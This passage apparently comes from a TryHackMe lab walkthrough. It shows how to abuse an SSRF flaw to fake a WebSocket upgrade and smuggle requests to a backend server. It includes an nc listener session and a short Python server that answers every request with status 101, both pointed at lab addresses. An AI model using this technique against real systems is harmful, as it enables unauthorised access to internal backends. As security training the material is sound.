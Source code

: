 ![Taking advantage of SSRF](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/bbbb7b538ac6d66f6da36d6a655ada9d.png)  

We can useÂ `nc`Â in our AttackBox to check if we can direct a request to ourselves. We should get a response similar to this one:



```shell-session
user@attackbox$ nc -lvp 5555
Listening on 0.0.0.0 5555
Connection received on 10.10.235.194 52988
GET /test HTTP/1.1
Host: 10.10.11.155:5555
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

This means we can successfully use theÂ SSRFÂ vulnerability to influence the response of the backend server. All we need to do is spin up a web server that returns aÂ `101`Â status, allowing us to fake a WebSocket upgrade.

Setting up the Attacker's Web Server

We can quickly set up a web server that responds with status 101 to every request with the following Python code:

```python
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 1:
    print("""
Usage: {} 
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.protocol_version = "HTTP/1.1"
       self.send_response(101)
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

Let's save the code to a file named myserver.py in our AttackBox and run it with the following command:


```shell-session
user@attackbox$ python3 myserver.py 5555
```

This should spin up a web server on port 5555 that will reply with a 101 status code to any request.
